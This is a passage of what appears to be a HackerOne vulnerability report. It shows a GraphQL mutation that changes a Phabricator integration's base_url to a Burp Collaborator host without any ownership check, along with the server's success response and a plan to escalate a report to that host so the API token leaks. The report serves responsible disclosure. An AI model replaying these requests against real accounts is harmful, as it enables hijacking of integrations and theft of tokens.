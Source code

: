 ```json
  "query": "mutation UpdatePhabricatorIntegration($team_id: ID!, $base_url: String, $api_token: String, $title: String, $description: String, $process_h1_comment_added: Boolean, $process_h1_status_change: Boolean, $process_phabricator_comment_added: Boolean, $process_phabricator_status_change: Boolean) {\n  updatePhabricatorIntegration(input: {team_id: $team_id, base_url: $base_url, api_token: $api_token, title: $title, description: $description, process_h1_comment_added: $process_h1_comment_added, process_h1_status_change: $process_h1_status_change, process_phabricator_comment_added: $process_phabricator_comment_added, process_phabricator_status_change: $process_phabricator_status_change}) {\n    was_successful\n    errors(first: 100) {\n      edges {\n        node {\n          id\n          type\n          field\n          message\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    team {\n      id\n      phabricator_integration {\n        id\n        base_url\n        title\n        description\n        process_phabricator_status_change\n        process_phabricator_comment_added\n        process_h1_status_change\n        process_h1_comment_added\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"
}
```
As we can see this is actually similar to initial integration create process, let's see what happens if we try to change `base_url` field and GraphQL replies as following (see F1262334):
```json
{
  "data": {
    "updatePhabricatorIntegration": {
      "was_successful": true,
      "errors": {
        "edges": [],
        "__typename": "ErrorConnection"
      },
      "team": {
        "id": "Z2lkOi8vaGFja2Vyb25lL1RlYW0vNTIzNjI=",
        "phabricator_integration": {
          "id": "Z2lkOi8vaGFja2Vyb25lL1BoYWJyaWNhdG9ySW50ZWdyYXRpb24vNDA4",
          "base_url": "https://bixp32pnbkbisrmuxgsrrzn8lzrufj.burpcollaborator.net",
          "title": "{{title}}",
          "description": "{{details_truncated}}",
          "process_phabricator_status_change": true,
          "process_phabricator_comment_added": true,
          "process_h1_status_change": true,
          "process_h1_comment_added": true,
          "__typename": "PhabricatorIntegration"
        },
        "__typename": "Team"
      },
      "__typename": "UpdatePhabricatorIntegrationPayload"
    }
  }
}
```

It looks like we are able to update `base_url` and HackerOne just does DNS query to check if target host is active and not controlling if user trying to update existing connection, it's also possible to change `api_token`too but we do not need it.

Now let's try to see if we are able to leak token in system, all we need to do is finding active report on system, since there is also no active escalation control on `/reports/<reportid>/escalate_to_phabricator` endpoint unlike `/reports/<reportid>/escalate_to_jira` (see F1262353). We can try to escalate to our Burp Collaborator.
